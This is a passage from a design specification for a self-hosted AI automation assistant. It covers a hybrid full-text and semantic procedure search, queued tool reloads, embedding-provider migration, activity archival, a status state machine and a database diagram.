- tags: Array of user or AI-generated tags (e.g., ["email", "triage"])

**SQLite Companion Table** (for FTS):

**kb_procedures table**:
- id TEXT PRIMARY KEY (same UUID as Chroma)
- automation_id INTEGER (FK to automations.id)
- title TEXT NOT NULL
- content TEXT NOT NULL (full procedure text)
- metadata JSON (copy of Chroma metadata)
- chroma_sync_status VARCHAR(20) DEFAULT 'PENDING' (PENDING, SYNCED, FAILED)
- chroma_synced_at TIMESTAMP NULL
- chroma_error TEXT NULL (stores last error message if sync failed)
- chroma_retry_count INTEGER DEFAULT 0
- created_at TIMESTAMP
- last_used_at TIMESTAMP
- usage_count INTEGER DEFAULT 0

**kb_procedures_fts virtual table** (FTS5):
- Fields: id UNINDEXED, title, content
- Options: content='kb_procedures', content_rowid='rowid'

**Trigger kb_procedures_ai**:
- AFTER INSERT ON kb_procedures
- Inserts into kb_procedures_fts to keep FTS index synchronized

#### Search Strategy: Hybrid (FTS + Semantic)

**Dual Search Capabilities**:

1. **Full-Text Search (SQLite FTS5)**:
   - Keyword-based queries with Boolean operators
   - Fast exact matches (sub-100ms)
   - Good for procedure names, specific commands, technical terms
   - Example: Search for "gmail archive" finds exact keyword matches

2. **Semantic Search (Chroma Vector Search)**:
   - Embedding-based similarity using cosine distance
   - Conceptual matches across paraphrases
   - Better for natural language queries
   - Example: "clean up disk space" matches "remove old log files"

**Tool Interface**:

**Tool 1: FTS Keyword Search** (search_procedures_fts):
- Purpose: Fast keyword-based queries with Boolean operators (AND, OR, NOT)
- Best for: Exact matches, procedure names, specific commands, technical terms
- Example: "gmail archive" finds exact keyword matches
- Implementation: Query SQLite FTS5 index with BM25 ranking
- Parameters: query (search keywords), limit (max results, default: 5)
- Returns: List of matching procedures with relevance scores

**Tool 2: Semantic Similarity Search** (search_procedures_semantic):
- Purpose: Embedding-based similarity using cosine distance
- Best for: Conceptual matches, natural language queries, paraphrases
- Example: "clean up disk space" matches "remove old log files"
- Implementation: Generate embedding, query Chroma with cosine similarity
- Parameters: query (natural language description), limit (max results, default: 5)
- Returns: List of similar procedures ranked by semantic similarity

**AI Agent Autonomy**:
- LLM dynamically chooses which search tool to use based on query type
- Can invoke both tools and merge results for comprehensive search
- Future enhancement: Hybrid search with re-ranking (v1.1+)

**Per-Automation Configuration** (Future v1.2+):
- Some automations may prefer FTS (structured data processing tasks)
- Others may prefer semantic search (creative problem-solving tasks)
- Default: Let AI agent choose dynamically

#### Data Retention & Synchronization

**Retention Policy**:
- **Indefinite storage**: All procedures retained permanently
- **Rationale**: Knowledge compounds over time; premature deletion loses learning
- **Future consideration**: Manual cleanup UI in v2.0+ for stale procedures
- **Metadata tracking**: `last_used_at` and `usage_count` enable future archival decisions

**Sync Strategy**:
- **Write path**: Write to both Chroma (vector) and SQLite (FTS) atomically
- **Read path**: Tools query respective stores independently
- **Consistency**: Background sync task (every 5 minutes) ensures metadata alignment
- **Recovery**: If Chroma and SQLite diverge, rebuild FTS from Chroma source of truth

#### Configuration Structure

All data-related configuration consolidated under `data:` section:

**Database Configuration**:
- path: SQLite database file location (default: "./data/ai_assistant.db")
- create_on_missing: Boolean to create if doesn't exist
- backup_on_startup: Boolean to create backup before migrations
- max_connections: Maximum connection pool size (default: 10)

**Knowledge Base Configuration**:
- storage_path: Chroma vector database location (default: "./data/chroma")
- collection_name: Chroma collection name (default: "procedures")
- max_results: Maximum search results (range: 1-50, default: 5)
- enable_fts: Boolean to enable SQLite FTS alongside semantic search
- sync_interval_seconds: Background sync interval (range: 60-3600, default: 300)

**Embeddings Configuration**:
- provider: "ollama", "openai", or "anthropic" (default: "ollama")
- model: Embedding model name (default: "nomic-embed-text")
- providers: Object with provider-specific configs:
  - ollama: base_url, timeout_seconds
  - openai: api_key_env (alternative model: text-embedding-3-large)
  - anthropic: api_key_env (placeholder for future)

**Configuration Models** (`backend/src/config/models/data.py`):

**Pydantic Configuration Classes**:

**EmbeddingsConfig**:
- Extends BaseConfig with requires_restart=False
- Fields: provider (Literal["ollama", "openai", "anthropic"]), model (str), providers (Dict)
- Method: get_provider_config() returns configuration for active provider

**KnowledgeBaseConfig**:
- Extends BaseConfig with requires_restart=False
- Fields: storage_path, collection_name, max_results (Field with ge=1, le=50), enable_fts (bool), sync_interval_seconds (Field with ge=60, le=3600)

**RetentionPolicyConfig**:
- Extends BaseConfig with requires_restart=False
- Retention periods in days (None = indefinite): automation_execution_days (default: 90), chat_message_days (default: None), evaluation_result_days (default: 365)
- Archive settings: archive_path (default: "./data/archives"), archive_format (Literal["jsonl", "json"]), compress_archives (bool, future: gzip older archives)

**DataConfig** (container):
- Extends BaseConfig with requires_restart=False
- Fields: database (DatabaseConfig), knowledge_base (KnowledgeBaseConfig), embeddings (EmbeddingsConfig), retention_policy (RetentionPolicyConfig)
- All fields use Field(default_factory=...) for nested config initialization

#### Implementation Phases

**Phase 1 (v1.0 MVP)**:
- Chroma integration with Ollama embeddings
- Semantic search tool for AI agent
- Basic procedure storage (store successful automation outputs)
- SQLite companion table (no FTS yet)

**Phase 2 (v1.1)**:
- Add FTS5 index to SQLite companion table
- Expose both search tools (FTS + semantic) to AI agent
- Usage tracking (`last_used_at`, `usage_count`)

**Phase 3 (v1.2)**:
- Hybrid search with result merging and re-ranking
- UI for browsing/managing procedures
- Automatic procedure tagging with AI
- "Stale procedure" detection and cleanup recommendations

#### Tool Reload Activity

**Design Principle**: Treat tool reload as a special activity type that queues like any other task, avoiding threading complexity.

**Problem**: When user updates tool code and triggers reload, need to prevent race conditions with running automations without complex locking mechanisms.

**Activity-Based Solution**:

**API Endpoint** (`POST /api/v1/tools/reload`):

**Endpoint Behavior**:
- Creates tool_reload activity with PENDING status
- Sets triggered_by="user" and user_input="Manual tool reload request"
- Returns activity_id, status="queued", and informational message
- Activity is queued for execution by ActivityManager (non-blocking)

**Activity Execution** (`backend/src/services/activity_manager.py`):

**execute_activity Method**:
- Routes activity to type-specific handler (_execute_tool_reload, _execute_automation, etc.)

**_execute_tool_reload Method**:
- Updates activity status to IN_PROGRESS
- Queries for running activities (excluding tool_reload type) via get_running_activities
- If running activities exist:
  - Logs waiting message with activity IDs
  - Polls every 1 second with 5-minute timeout (NFR-6.5)
  - On timeout: Updates activity to FAILED with actionable error message listing blocked automations
- Once safe to reload:
  - Calls tool_registry.reload() to perform reload operation
  - Constructs reload_summary dict with tools_loaded, tools_added, tools_removed, tools_updated, errors, duration_seconds
  - Updates activity to COMPLETED with JSON result and metadata
  - Logs success message
- On exception: Updates activity to FAILED with error message and re-raises

**get_running_activities Method**:
- Queries activities table for status='IN_PROGRESS'
- Optionally excludes specified activity types (e.g., tool_reload)
- Returns list of running activity records

**Tool Registry Implementation** (`backend/src/tools/registry.py`):

**ToolRegistry Class**:
- Stores _tools dict (tool_id -> tool_instance) and _tool_paths dict (tool_id -> file_path)

**reload Method**:
- Discovers tools via _discover_tools (scans built-in and user directories)
- Compares old vs new tool sets to identify added, removed, updated tools
- Unloads removed tools (deletes from _tools and _tool_paths dicts)
- For each discovered tool:
  - If already loaded: Uses importlib.reload to refresh module from disk
  - Loads tool instance via _load_tool (validates LangChain Tool interface)
  - Updates _tools and _tool_paths dicts
  - On error: Logs exception and appends to errors list
- Returns reload summary dict with: tools (list of IDs), added, removed, updated, errors (list of dicts with tool_id and error), duration (seconds)

**Helper Methods**:
- _discover_tools: Scans tool directories (similar to startup discovery logic)
- _load_tool: Validates tool implements LangChain Tool interface
- _get_module_name: Extracts Python module name from file path

**Benefits of Activity-Based Approach**:

1. **No Threading Complexity**: Uses existing activity queue, no locks/semaphores needed
2. **Auditable**: Tool reloads visible in activity log with timestamps, duration, and results
3. **Chainable**: Can create dependencies ("After backup automation, reload tools")
4. **Schedulable**: Can schedule daily tool reloads via cron (e.g., "3am daily: git pull tools repo, then reload")
5. **User Feedback**: Real-time status updates via activity polling
6. **Timeout Handling**: Clear error messages when automations block reload
7. **Metadata Rich**: Reload activity includes added/removed/updated tool lists

**User Experience**:

| Scenario | Behavior | UI Feedback |
|----------|----------|-------------|
| **No running automations** | Reload happens immediately | "Tools reloaded: 15 tools, added 2, removed 1" |
| **1 automation running** | Waits for automation to complete | "Waiting for 'Daily Backup' to complete..." (with spinner) |
| **Long-running automation** | Waits up to 5 minutes, then times out | "Reload failed: 'Email Cleanup' still running after 5 min. Try again later." |
| **Chat during reload** | Chat queued after reload | "Tools are reloading. Your message will be processed next." |
| **Multiple reload requests** | All queued as separate activities | Each gets own activity record (idempotent, last one wins) |

**Scheduled Tool Reload** (via cron):

**Schedule Configuration**:
- Schedule named "Daily Tool Update" with cron "0 3 * * *" (3am daily)
- Triggers automation_id "tool_update_workflow"

**Automation Workflow**:
- Step 1: Use shell tool to run git pull in ~/.ai_assistant/tools directory
- Step 2: If git pull succeeded, trigger tool reload
- Step 3: Report summary of changes

**API Endpoints**:
- `POST /api/v1/tools/reload` - Queue tool reload activity
- `GET /api/v1/tools/reload-status` - Get status of most recent reload activity
- `GET /api/v1/activities/{id}` - Get full reload activity details

**Future Enhancements** (v1.1+):
- **Hot reload validation**: Test tool in sandbox before replacing live version
- **Rollback**: If reload fails, revert to previous tool versions
- **Tool versioning**: Keep multiple versions loaded for A/B testing
- **Selective reload**: Reload only specific tool by ID

#### Embedding Provider Migration

**Problem**: Embedding models produce incompatible vector representations. Switching providers breaks semantic search.

**Example Incompatibility**:
- Ollama `nomic-embed-text`: 384 dimensions
- OpenAI `text-embedding-3-small`: 1536 dimensions
- Cannot compare vectors with different dimensions or semantic spaces

**Migration Strategy**:

1. **Plain Text Storage** (FR-2.12):
   
   **SQLite kb_procedures Table**:
   - Stores full procedure text in content field (TEXT NOT NULL)
   - Content always retained for re-embedding without data loss
   - Serves as source of truth for migration
   - Additional fields: id (PRIMARY KEY), other metadata fields

2. **Config Change Detection** (FR-2.11):
   
   **API Endpoint** (`PUT /api/v1/config/data/embeddings`):
   - Loads current embeddings config via config_manager
   - Detects provider or model change by comparing new vs current config
   - If changed:
     - Queries kb_procedures table for COUNT(*)
     - If procedures exist: Returns warning response with:
       - status="warning"
       - Detailed message explaining invalidation of existing embeddings
       - requires_reembedding flag (true)
       - procedure_count (actual count)
       - estimated_duration_seconds (count * 0.1)
     - Message includes options: (1) Continue and run re-embedding, or (2) Cancel
   - If no change or no existing procedures: Saves config and returns status="success"

3. **Batch Re-Embedding Job** (FR-2.13):
   
   **KnowledgeBaseService.reembed_all_procedures Method**:
   - Parameters: progress_callback (optional function receiving current, total, procedure_id)
   - Loads all procedures from SQLite (SELECT id, content, metadata ORDER BY created_at)
   - Clears Chroma collection (delete all vectors, keep SQLite as source of truth)
   - For each procedure:
     - Generates new embedding with current provider via self.embeddings.embed_query
     - Adds to Chroma with id, embedding, document, metadata
     - Calls progress_callback if provided
     - Rate limits API providers (OpenAI, Anthropic): sleeps 0.6s between requests (100/min)
     - On exception: Logs error and appends to failed list
   - Returns dict: total_procedures, succeeded count, failed count, failed_details (list with id and error), duration_seconds
   
   **API Endpoint** (`POST /api/v1/knowledge-base/reembed`):
   - Generates unique job_id (UUID)
   - Starts background task (asyncio.create_task):
     - Inserts background_jobs record with status='running'
     - Defines update_progress callback that updates background_jobs with progress_current, progress_total, last_proc_id
     - Calls kb_service.reembed_all_procedures with callback
     - On completion: Updates background_jobs with status='completed', result JSON
   - Returns immediately with: job_id, status="started", status_endpoint URL
   
   **Job Status Endpoint** (`GET /api/v1/background-jobs/{job_id}`):
   - Queries background_jobs table by job_id
   - Returns 404 if not found
   - Returns: job_id, type, status (running/completed/failed), progress (current, total, percentage), started_at, completed_at, result (parsed JSON)

4. **UI Workflow**:
   - User changes embedding provider in settings
   - System displays prominent warning modal with procedure count and estimated time
   - User confirms change
   - Config saved, re-embedding job starts automatically
   - Progress bar shows "Re-embedding knowledge base: 45/200 procedures (22%)"
   - Status banner: "⚠️ Semantic search disabled during re-embedding. FTS search still available."
   - On completion: "✅ Re-embedding complete. Semantic search restored."

5. **Database Schema**:
   
   **background_jobs Table**:
   - Tracks background jobs for re-embedding and other long operations
   - Fields:
     - id (TEXT PRIMARY KEY)
     - type (VARCHAR(50) NOT NULL): 'reembedding', 'archive', etc.
     - status (VARCHAR(20) NOT NULL): 'running', 'completed', 'failed'
     - progress_current (INTEGER DEFAULT 0)
     - progress_total (INTEGER DEFAULT 0)
     - started_at (TIMESTAMP NOT NULL)
     - completed_at (TIMESTAMP)
     - result (JSON): Final result/error details
     - metadata (JSON): Job-specific metadata

**Lazy Re-Embedding (Deferred to v1.2)**:
- Alternative: Re-embed on first search after provider change
- Complexity: Requires tracking which procedures have current embeddings
- Trade-off: Slower initial searches vs upfront batch cost
- Decision: Upfront batch is simpler and more predictable for v1.0

#### Service Implementation Pattern

**KnowledgeBaseService Class** (`backend/src/services/knowledge_base.py`):

**Initialization**:
- Instantiates ConfigManager singleton
- Loads data config via get_config("data")
- Initializes Chroma PersistentClient with storage_path from knowledge_base config
- Gets or creates collection with hnsw:space="cosine" metadata
- Calls _init_embeddings to set up provider-specific embedding client

**_init_embeddings Method**:
- Reads embeddings config (provider, model, provider_config)
- For ollama provider: Creates OllamaEmbeddings with base_url and model
- For openai provider: Loads API key from environment, creates OpenAIEmbeddings with api_key and model

**store_procedure Method**:
- Generates UUID for procedure_id
- Creates embedding via self.embeddings.embed_query(procedure_text)
- Adds to Chroma: ids, embeddings, documents, metadatas (includes automation_id)
- Stores in SQLite with transaction (implementation details omitted)
- Returns procedure_id

**search_semantic Method**:
- Embeds query via self.embeddings.embed_query(query)
- Queries Chroma collection with query_embeddings and n_results=limit
- Formats and returns results

**search_fts Method**:
- Queries SQLite FTS5 index for full-text search (implementation details omitted)

#### Activity Archival Format

**Archive Structure**: Monthly JSON Lines files organized by activity type and date:
```
data/archives/
  automation-2026-01.jsonl      # Automation execution activities
  automation-2026-02.jsonl
  chat-2026-01.jsonl            # Future: archived chat messages
  evaluation-2026-01.jsonl      # Future: old evaluation results
```

**JSON Lines Format**: One JSON object per line for streaming and efficient search. Each line contains a complete activity record.

**Example Records Structure**:

**Completed Automation Activity**:
- Fields: id, type="automation_execution", automation_id, automation_version, status="COMPLETED", created_at, completed_at, metadata (schedule_id, trigger_time), closure_ancestors (empty array for root)

**Tool Execution Child Activity**:
- Fields: id, type="tool_execution", parent_id, tool_name, status="COMPLETED", created_at, completed_at, metadata (command, exit_code), closure_ancestors (array with parent id)

**Failed Automation Activity**:
- Fields: id, type="automation_execution", automation_id, automation_version, status="FAILED", created_at, completed_at, error_message, metadata (schedule_id), closure_ancestors (empty array)

**Archive Fields**:
- **Core**: `id`, `type`, `status`, `created_at`, `completed_at`
- **Context**: `automation_id`, `automation_version`, `parent_id`, `tool_name`
- **Relationships**: `closure_ancestors` (array of ancestor UUIDs for tree reconstruction)
- **Metadata**: Full metadata JSON (schedule trigger info, tool args, error details)
- **Error Info**: `error_message` for failed activities

**Archival Process**:
1. **Daily Cron Job**: Run at 2 AM, identify activities older than retention period
2. **Export to JSONL**: Write matching activities to monthly archive file (append mode)
3. **Verify Export**: Confirm all records written successfully
4. **Delete from SQLite**: Remove archived activities from database (hard delete)
5. **Prune Orphans**: Remove closure table entries for deleted activities

**Query Archived Data**: Future enhancement (v1.2+) to search archives via UI or API, load specific month's archive into memory for viewing activity trees.

---

### 8.4 Tool System Questions
   - Which tools are MVP (v1.0)? Gmail, git, shell, file operations
   - Which are v1.1+? Slack, calendar, Jira, GitHub API tools
   - Should there be extensible tool templates for common patterns (API, database, webhook)?

### 8.5 Monitoring, Observability & Future Features

1. **Monitoring & Alerting**
   - Should system emit metrics for Prometheus/StatsD?
   - Alert strategy for failed automations (email, webhook, UI notification)?
   - Performance metrics to track (tool execution time, chat latency, FTS query time)?
   - How to monitor tool health/availability?

2. **Future Enhancement Candidates**
   - Task chaining/dependencies (sequential automations)?
   - Conditional execution (if this succeeds, then run that)?
   - Human-in-the-loop workflows (pause for approval)?
   - Real-time collaboration features?
   - Multi-user support roadmap?
   - Voice interface?

---

## 10. Additional Resources

### 9.1 Reference Documentation

**LLM Function Calling**:
- OpenAI Function Calling: https://platform.openai.com/docs/guides/function-calling
- Anthropic Tool Use: https://docs.anthropic.com/en/docs/tool-use
- Ollama Function Calling: https://github.com/ollama/ollama/blob/main/docs/api.md#generate-with-functions

**Scheduling Libraries**:
- APScheduler Documentation: https://apscheduler.readthedocs.io/
- Cron Expression Guide: https://crontab.guru/

**SQLite Features**:
- FTS5 Full-Text Search: https://www.sqlite.org/fts5.html
- JSON Functions: https://www.sqlite.org/json1.html
- Trigger Documentation: https://www.sqlite.org/lang_createtrigger.html

**Closure Tables**:
- SQL Antipatterns: Hierarchical Data
- Closure Table Pattern: https://www.slideshare.net/billkarwin/models-for-hierarchical-data

### 9.2 Related AI Assistant Documentation

- Configuration System: [backend/src/config/README.md](../backend/src/config/README.md)
- Example Config: [config.example.yaml](../config.example.yaml)
- Main README: [README.md](../README.md)
- Logging System: [docs/[COMPLETE] logging-system-plan.md](docs/[COMPLETE]%20logging-system-plan.md)

### 9.3 Prompt Engineering Resources

- OpenAI Prompt Engineering Guide: https://platform.openai.com/docs/guides/prompt-engineering
- Anthropic Prompt Library: https://docs.anthropic.com/en/prompt-library/library
- LangChain Prompting Best Practices: https://python.langchain.com/docs/guides/prompting/best_practices

### 9.4 Testing & Evaluation

- LLM Evaluation Frameworks: RAGAS, PromptFoo, LangSmith
- Schema Validation: JSON Schema Validator
- Code Execution Sandboxing: RestrictedPython, CodeRunner

### 9.5 Example Implementations

**Similar Projects** (for reference):
- n8n: Workflow automation with AI nodes
- Zapier AI Actions: Natural language automation
- LangChain Agents: Tool-using AI agents
- AutoGPT: Autonomous AI task execution

---

## Appendices

### Appendix A: Glossary

- **Automation**: A high-level goal/instruction executed by the AI agent using tools
- **Tool**: A low-level capability (function) the AI can invoke
- **Activity**: A record in the unified log (message, task execution, completion, error)
- **Closure Table**: Data structure for efficient hierarchical queries
- **Evaluation**: Assessment of automation output quality (human, AI, structured, executable)
- **Rubric**: Scoring criteria with weighted categories for AI judge evaluations
- **Test Case**: Input + expected output + evaluation type for automation testing
- **Version**: Immutable snapshot of automation instruction (versioned for comparison)
- **Knowledge Base**: Storage for successful procedures the AI learns

### Appendix B: Workflow Diagrams

**Scheduled Execution Flow**:

```mermaid
graph LR
    Cron[Cron Match] --> SM[ScheduleManager]
    SM --> AI[AI Agent]
    AI --> TR[Tool Registry]
    TR --> ES[External System]
    SM --> AM[ActivityManager]
    AI --> AM
    TR --> AM
    AM --> DB[(SQLite<br/>activities table)]
```

**Chat Interaction Flow**:
```mermaid
graph TD
    UM[User Message] --> WS[WebSocket]
    WS --> AI[AI Agent]
    AI --> CQ[Context Query<br/>activities FTS]
    AI --> LLM[LLM Response]
    LLM --> AM[ActivityManager<br/>store MESSAGE]
```

**Evaluation Execution Flow**:
```mermaid
graph LR
    UT[User Triggers] --> LTC[Load Test Cases]
    LTC --> EA[Execute Automation]
    EA --> CO[Capture Output]
    CO --> Eval[Evaluate<br/>human/AI/structured/executable]
    Eval --> SR[Store Results<br/>automation_evaluations]
```

**Async Approval Flow**:
```mermaid
graph TD
    AI[AI Agent] --> Tool[Tool Execution]
    Tool --> Check{Requires<br/>Approval?}
    Check -->|No| Exec[Execute Action]
    Check -->|Yes| PA[Return pending_approval]
    PA --> Log[Log Activity<br/>PENDING_APPROVAL status]
    Log --> Cont[Continue Automation]
    Cont --> Complete[Automation Completes]
    Complete --> Queue[Approval Queue UI]
    Queue --> User{User Reviews}
    User -->|Approve| Approve[Execute Action]
    Approve --> Child[Create Child Activity<br/>COMPLETED status]
    User -->|Deny| Deny[Mark Activity<br/>DENIED status]
```

**Activity Status State Machine**:
```mermaid
stateDiagram-v2
    [*] --> PENDING: Create activity
    
    PENDING --> IN_PROGRESS: Start execution
    PENDING --> FAILED: Validation error
    
    IN_PROGRESS --> COMPLETED: Success
    IN_PROGRESS --> FAILED: Execution error
    IN_PROGRESS --> PENDING_APPROVAL: Requires approval
    
    PENDING_APPROVAL --> COMPLETED: User approves + success
    PENDING_APPROVAL --> DENIED: User denies
    PENDING_APPROVAL --> CANCELLED: User cancels
    
    COMPLETED --> [*]: Terminal
    FAILED --> [*]: Terminal
    DENIED --> [*]: Terminal
    CANCELLED --> [*]: Terminal
    MISSED --> [*]: Terminal
    
    note right of MISSED
        Special status for skipped
        scheduled executions.
        Created directly, not transitioned to.
    end note
```

**Valid State Transitions**:

| From State | To States | Trigger |
|------------|-----------|---------|
| PENDING | IN_PROGRESS | ActivityManager.start_execution() |
| PENDING | FAILED | Validation failure before execution |
| PENDING | CANCELLED | User cancels before execution starts |
| IN_PROGRESS | COMPLETED | Successful execution |
| IN_PROGRESS | FAILED | Execution error/timeout |
| IN_PROGRESS | PENDING_APPROVAL | Tool requires user approval |
| IN_PROGRESS | CANCELLED | User cancels during execution |
| PENDING_APPROVAL | COMPLETED | User approves + action succeeds |
| PENDING_APPROVAL | DENIED | User denies approval |
| PENDING_APPROVAL | CANCELLED | User cancels pending action |
| COMPLETED | *(none)* | Terminal state |
| FAILED | *(none)* | Terminal state |
| DENIED | *(none)* | Terminal state |
| CANCELLED | *(none)* | Terminal state |
| MISSED | *(none)* | Terminal state (created directly) |

**Terminal States**: Once an activity reaches COMPLETED, FAILED, DENIED, CANCELLED, or MISSED, no further transitions are allowed. These states represent final outcomes.

**ActivityManager Enforcement**:

**ActivityStatus Enum**:
- String enumeration with values: PENDING, IN_PROGRESS, COMPLETED, FAILED, PENDING_APPROVAL, DENIED, CANCELLED, MISSED

**VALID_TRANSITIONS Dictionary**:
- Maps each ActivityStatus to set of allowed target statuses:
  - PENDING → {IN_PROGRESS, FAILED, CANCELLED}
  - IN_PROGRESS → {COMPLETED, FAILED, PENDING_APPROVAL, CANCELLED}
  - PENDING_APPROVAL → {COMPLETED, DENIED, CANCELLED}
  - Terminal states (COMPLETED, FAILED, DENIED, CANCELLED, MISSED) → empty set (no outgoing transitions)

**ActivityManager.update_status Method**:
- Parameters: activity_id (str), new_status (ActivityStatus)
- Gets current activity record, raises ActivityNotFoundError if missing
- Converts current status to ActivityStatus enum
- Validates transition by checking if new_status is in VALID_TRANSITIONS[current_status]
- If invalid: Raises InvalidTransitionError with detailed message listing allowed transitions or "none (terminal state)"
- If valid: Updates activities table with new status and updated_at timestamp
- Logs transition (e.g., "Activity uuid: PENDING → IN_PROGRESS")

**InvalidTransitionError Exception**:
- Custom exception raised when attempting invalid status transition

**Usage Examples**:

**Valid Transitions**:
- PENDING → IN_PROGRESS: Allowed, state updates successfully
- IN_PROGRESS → COMPLETED: Allowed, state updates successfully

**Invalid Transition**:
- COMPLETED → IN_PROGRESS: Raises InvalidTransitionError with message:
  - "Invalid transition: COMPLETED → IN_PROGRESS. Allowed transitions from COMPLETED: none (terminal state)"

**Benefits**:
- **Data integrity**: Prevents impossible state combinations
- **Audit trail**: Clear status history
- **Debugging**: Invalid transitions caught immediately
- **UI consistency**: Status badges reflect valid states only

### Appendix C: Database ERD

```mermaid
erDiagram
    schedules ||--o{ automations : "automation_id"
    automations ||--o| automations : "replaced_by_id (self)"
    automations ||--o{ evaluation_test_cases : "automation_id"
    automations ||--o{ automation_evaluations : "automation_id"
    evaluation_test_cases ||--o{ automation_evaluations : "test_case_id"
    evaluation_rubrics ||--o{ evaluation_test_cases : "rubric_id"
    activities ||--o| activities : "replaced_by (self)"
    activities ||--o{ automation_evaluations : "activity_id"
    activities ||--o{ activity_closure : "ancestor_id"
    activities ||--o{ activity_closure : "descendant_id"
    
    schedules {
        int id PK
        string cron_expression
        int duration_minutes
        int automation_id FK
        bool enabled
        timestamp created_at
        timestamp updated_at
    }
    
    automations {
        int id PK
        string name
        int version
        text instruction
        bool active
        int replaced_by_id FK
        json tools_available
        timestamp created_at
        timestamp updated_at
    }
    
    activities {
        uuid id PK
        enum type
        enum status
        text user_input
        text ai_response
        json metadata
        uuid replaced_by FK
        timestamp approval_requested_at
        timestamp approval_decided_at
        text approval_decision
        text approved_by
        timestamp created_at
        timestamp updated_at
    }
    
    activity_closure {
        uuid ancestor_id PK_FK
        uuid descendant_id PK_FK
        int depth
    }
    
    evaluation_test_cases {
        int id PK
        int automation_id FK
        string name
        text input
        text expected_output
        enum evaluation_type
        int rubric_id FK
        json metadata
        bool enabled
        timestamp created_at
    }
    
    evaluation_rubrics {
        int id PK
        string name
        text description
        json categories
        timestamp created_at
    }
    
    automation_evaluations {
        int id PK
        int automation_id FK
        int test_case_id FK
        uuid activity_id FK
        enum evaluation_type
        float score
        json raw_scores
        text output
        text feedback
        bool passed
        string evaluator
        json metadata
        timestamp created_at
    }
```

---

**Document Status**: Ready for Staff Engineer Review
**Last Updated**: January 24, 2026
**Next Review**: After Staff Engineer feedback
